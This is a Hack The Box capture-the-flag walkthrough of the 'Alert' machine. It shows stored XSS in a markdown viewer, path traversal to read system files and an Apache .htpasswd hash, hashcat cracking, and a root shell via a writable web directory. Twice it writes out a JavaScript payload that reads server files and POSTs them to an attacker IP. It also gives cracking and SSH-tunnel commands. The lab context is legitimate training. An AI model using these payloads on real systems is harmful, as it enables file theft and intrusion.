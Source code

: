 ```yaml
---
title: "Alert Walkthrough(Hack The Box)"
date: 2025-03-22
draft: false 
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```


## Reconnaissance & Enumeration
- Started with an Nmap scan, revealing open ports: 22, 80.
![Pasted image 20241218005036.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005036.png?raw=true)
- From the scan results I can also see `12227` port open which is also interesting.
- The scan results showed that Apache2 was hosting the website.
- The website featured a markdown reader page, The Basic functionality of this website is, get's markdown file from the user and then reads the contents of the particular file for displaying it's contents on the website.
- This website also included a share option for the rendered content. Again, it also has a simple `contact form`
- Now it should be obivious that this website uses HTML and JavaScript to render the contents like any other site on the internet
![obivious](https://media1.tenor.com/m/jc-G9cs4QVAAAAAC/station-19-maya-bishop.gif)
- I uploaded a `.md` file with JavaScript snippet init for testing, below were the contents of my md file  
![Pasted image 20241218005523.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005523.png?raw=true)
- As expected the contents were rendered and loaded like this
![Pasted image 20241218005550.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005523.png?raw=true)
- This is quite bad. It can execute arbitrary code as it renders the contents

## Exploitation
- Also another functionality in this website is pretty straight forward, where in `contact form` whatever link is filled and sent seems to be clicked by an admin. 
- We can easily get the admin's cookie by making a `.md` file with malicious payload and by sharing the `.md` file link using the share option to the admin through the contact form. The admin will eventually click the link and it will make the code to execute on his browser potentially sending the cookie to us(Attacker). 
- More dangerously we could also read arbitrary files using the `message.php` parameter 
- So to exploit this LFI vulnerability I tried this payload and opened a nc on other side. 


```js
<script>
fetch("http://alert.htb/messages.php?file=/etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
- To trigger this payload, View it and use the share option and get the link, share it to the dumb admin via contact form.
![dumb](https://media1.tenor.com/m/szyfm5XeQmAAAAAC/life.gif)
- After many tries I got this correct I modified the payload accordingly to read the target file 

```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
![Pasted image 20241218010840.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218010840.png?raw=true)
- Found couple of users. Now the configs for apache2 running websites generally resides at `/etc/apache2/sites-available/000-default.conf` I learnt this from enumerating my own machine.
![lies-within-you](https://media1.tenor.com/m/fG6zxAnLtWsAAAAC/vegito-db.gif)
![Pasted image 20241218011112.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011112.png?raw=true)
- After I modified the original payload to read this configuration file and  I got the output.
![Pasted image 20241218011242.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011242.png?raw=true)
- Got the `.htpasswd` location. Usually this file contains the passwords or hashes for apache2.
- Within that file password hash for user `albert` was there  
![Pasted image 20241218011625.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011625.png?raw=true)
- Let's crack the hash I used hashcat to crack this hash `hashcat hash.txt  /usr/share/wordlists/rockyou.txt -m 1600 --username` Here I specified module `1600` to crack apache type hash and with as `albert` username is presented with the hash we have to specify `--username` flag
![Pasted image 20241218012743.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218012743.png?raw=true)
- Now I can use ssh to login as user `albert`
- We got the {{< keyword >}} User flag {{< /keyword >}}

## Privilege Escalation
- General SUID, SGID, Capabilities didn't had anything promising
- But anyway there was a internal web service running on port 80 `ss -tunlp` so I tunneled it to my machine via ssh on port 2000.
```
ssh -L 2000:localhost:8080 albert@alert.Hack The Box
```
![Pasted image 20241218014520.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218014520.png?raw=true)
- The web service name litterely  `websitemonitor` which track and monitor the websites like `alert.htb`
- I found the website's directory location at `/opt/websitemonitor`
- The configuration files for this website are stored within `/config`
![Pasted image 20241218020002.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020002.png?raw=true)
- The the web root folder of this website has root privileges and Albert also have access to modify it.
- So to escalate my privileges I changed the file to a reverseshell.
![Pasted image 20241218020421.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020421.png?raw=true)
- Eventually secured {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20241218020525.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020525.png?raw=true)

![summary](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZzgzZzA3MzJyd3M3c3p1NjgzNW53cXZubnA2NW94ZWNncnF6NXQzYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/j5rIZnN3n3i19hxx8T/giphy.gif)
## Summary

The "Alert" box was approached with an initial **reconnaissance** phase where an nmap scan revealed three open ports: SSH (port 22) and a web server (port 80). The web server was identified as running Apache2 and hosting a Markdown reader page.

During the **enumeration** phase, it was discovered that the Markdown reader could execute code embedded within the Markdown content. Additionally, a contact form was found to be exploitable because the administrator would click on links sent through it without analyzing them, suggesting a potential **Local File Inclusion (LFI)** vulnerability. This LFI was exploited by crafting a payload and sending it to the admin via the contact form. This allowed for the discovery of user information and the location of the Apache2 configuration file, which contained the path to the `.htpasswd` file. The password hash for the user `albert` was found within this file.

The **exploitation** phase also involved cracking `albert`'s password hash using `hashcat`. The cracked password enabled successful SSH login, granting initial user access and the user flag.

For **privilege escalation**, an internal web service named "websitemonitor" was discovered running on port 8080. This port was tunneled to the attacker's machine via SSH. The configuration files for "websitemonitor," including the web root, were located in `/opt/websitemonitor/config`. As the user `albert` and root had permissions to modify files in the web directory,I replaced a file with a reverse shell, leading to root access and the acquisition of the root flag.

{{< typeit >}} This is a small and straightforward walkthrough for the box Alert, I hope you liked this if so kindly check my other posts too. Thank you, see you again {{< /typeit >}}

![bye](https://media.tenor.com/RlCHjOKEpaMAAAAi/rabbit-animal.gif)


